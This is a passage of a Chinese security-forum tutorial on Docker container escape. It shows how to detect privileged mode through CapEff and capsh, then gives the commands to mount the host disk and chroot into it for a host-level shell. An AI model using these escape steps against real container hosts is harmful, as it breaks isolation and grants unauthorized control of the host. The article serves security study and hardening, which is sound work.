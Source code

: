 

# Docker 逃逸技术 - 先知社区

Docker 逃逸技术

- - -

## privileged 特权模式直接挂载目录

在 Docker 容器启动时如果添加了 `--privileged`参数，就会以特权模式启动 docker。  
即具备所有的**Capabilities**

```plain
docker run -it --rm --privileged ubuntu /bin/bash
```

在容器中可以通过`cat /proc/self/status | grep CapEff` 来判断容器是否以特权模式启动

[![](assets/1706845681-88f1735c48af3a2fb4d8a1761586f5c3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131230048-8490b946-c049-1.png)

如果是特权模式的话，CapEff 对应的值为**0000003fffffffff**

通过`capsh`可以看到其所具有的 capability 权限

如：`capsh --decode=0000003fffffffff`

[![](assets/1706845681-3d2b21ed5d6677a8215d424821865a0f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131230140-a3831876-c049-1.png)

以特权模式运行的 docker 容器具有所有的 capability 权限，即可以访问所有 device 以及具有挂载的草走权限。  
此时可以先将其挂载到容器中，然后使用`chroot`获取一个以宿主机根目录为根目录的`shell`来拿到宿主机的权限。

```plain
mkdir /pwn
mount /dev/sda1 /pwn
chroot /pwn
```

